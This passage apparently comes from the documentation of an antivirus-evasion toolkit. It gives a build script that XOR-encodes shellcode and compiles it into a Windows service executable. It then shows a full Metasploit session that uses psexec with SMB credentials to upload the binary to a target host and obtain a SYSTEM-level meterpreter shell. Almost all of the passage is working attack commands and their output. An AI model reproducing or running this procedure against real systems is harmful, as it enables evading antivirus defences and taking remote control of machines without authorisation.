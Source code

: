 ```
set_payload_info_source no_data

# set decoder
set_decoder xor

# set shellcode binding technique
set_payload_execution_method exec_shellcode

# enable debug printing
enable_debug_print to_file C:/avetdbg.txt

# compile as service
$win32_compiler -o output/service.exe source/avetsvc.c -lws2_32
strip output/service.exe

# cleanup
cleanup_techniques
```

And on the metasploit side:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
[*] 192.168.116.183:445 - Selecting native target
[*] 192.168.116.183:445 - Uploading payload...
[*] 192.168.116.183:445 - Using custom payload /root/tools/avepoc/a.exe, RHOST and RPORT settings will be ignored!
[*] 192.168.116.183:445 - Created \mzrCIOVg.exe...
[+] 192.168.116.183:445 - Service started successfully...
[*] 192.168.116.183:445 - Deleting \mzrCIOVg.exe...
[-] 192.168.116.183:445 - Delete of \mzrCIOVg.exe failed: The server responded with error: STATUS_CANNOT_DELETE (Command=6 WordCount=0)
[*] Exploit completed, but no session was created.
msf exploit(psexec) > [*] Meterpreter session 4 opened (192.168.116.142:33453 -> 192.168.116.183:8443) at 2017-05-27 18:47:23 +0200

msf exploit(psexec) > sessions

Active sessions
===============

Id Type Information Connection
-- ---- ----------- ----------
4 meterpreter x86/windows NT-AUTORIT_T\SYSTEM @ DAX-RYMZ48Z3EYO 192.168.116.142:33453 -> 192.168.116.183:8443 (192.168.116.183)

msf exploit(psexec) > sessions -i 4
```
